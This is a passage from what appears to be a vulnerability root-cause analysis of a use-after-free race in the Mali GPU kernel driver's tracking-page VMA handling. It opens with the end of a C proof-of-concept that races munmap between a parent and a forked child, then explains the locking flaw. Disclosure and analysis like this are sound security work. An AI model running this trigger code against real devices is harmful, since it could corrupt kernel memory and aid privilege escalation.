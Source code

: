 ```c
  };
  SYSCHK(ioctl(mali_fd, KBASE_IOCTL_VERSION_CHECK, &vc));
  struct kbase_ioctl_set_flags set_flags = { .create_flags = 0 };
  SYSCHK(ioctl(mali_fd, KBASE_IOCTL_SET_FLAGS, &set_flags));

  /* will not be copied to child, mali sets VM_DONTCOPY */
  void *parent_tracking_page = SYSCHK(mmap(NULL, 0x2000, PROT_NONE, MAP_SHARED,
        mali_fd, BASE_MEM_MAP_TRACKING_HANDLE));

  /* causes split and close handler invocation */
  SYSCHK(munmap(parent_tracking_page+0x1000, 0x1000));

  SYSCHK(signal(SIGCHLD, SIG_IGN));
  pid_t child = SYSCHK(fork());
  if (child == 0) {
    SYSCHK(prctl(PR_SET_NAME, "CHILD"));
    void *child_tracking_page = SYSCHK(mmap(NULL, 0x1000, PROT_NONE, MAP_SHARED,
          mali_fd, BASE_MEM_MAP_TRACKING_HANDLE));
    sleep(2);
    /* invoke close handler, inner side of race */
    SYSCHK(munmap(child_tracking_page, 0x1000));
    /* free mm */
    exit(0);
  }

  sleep(1);
  SYSCHK(prctl(PR_SET_NAME, "SLOWME"));
  /* invoke close handler, outer side of race */
  SYSCHK(munmap(parent_tracking_page, 0x1000)); /* KERNEL-PATCH-ASSISTED DELAY 5 SECONDS */
  SYSCHK(prctl(PR_SET_NAME, "PARENT"));
}
```

**Exploit sample:** N/A

**Did you have access to the exploit sample when doing the analysis?** Yes

## The Vulnerability

**Bug class:** Use-after-free

**Vulnerability details:**

The bug is in the handling of the "tracking page" VMA. The intention is that for a given Mali context, only a single "tracking page" VMA can exist at a time. "tracking page" VMAs are set up using `kbase_tracking_page_setup()`. This function tries to enforce the "only one tracking page can exist" rule by setting the flags `VM_DONTCOPY` and `VM_IO` (to prevent copying the VMA into a child process), by setting the flag `VM_DONTEXPAND` (to prevent expansion of the VMA), and by checking `kctx->process_mm` under the `kctx->mm_update_lock` spinlock to ensure that there can not already be a tracking page VMA.

When a tracking page VMA is torn down, `kbasep_os_process_page_usage_drain()` is called; this function is responsible for setting `kctx->process_mm` back to NULL (under the `kctx->mm_update_lock`)[1] and doing some bookkeeping work on the old `kctx->process_mm`. This final bookkeeping (`kbasep_add_mm_counter()`) happens after dropping the `kctx->mm_update_lock` [2], and without holding any explicit reference on the `kctx->process_mm` [3]; but if everything is working correctly and there can only be one tracking page VMA at a time, `kctx->process_mm` would be guaranteed to be `current->mm`, which would make this fine.
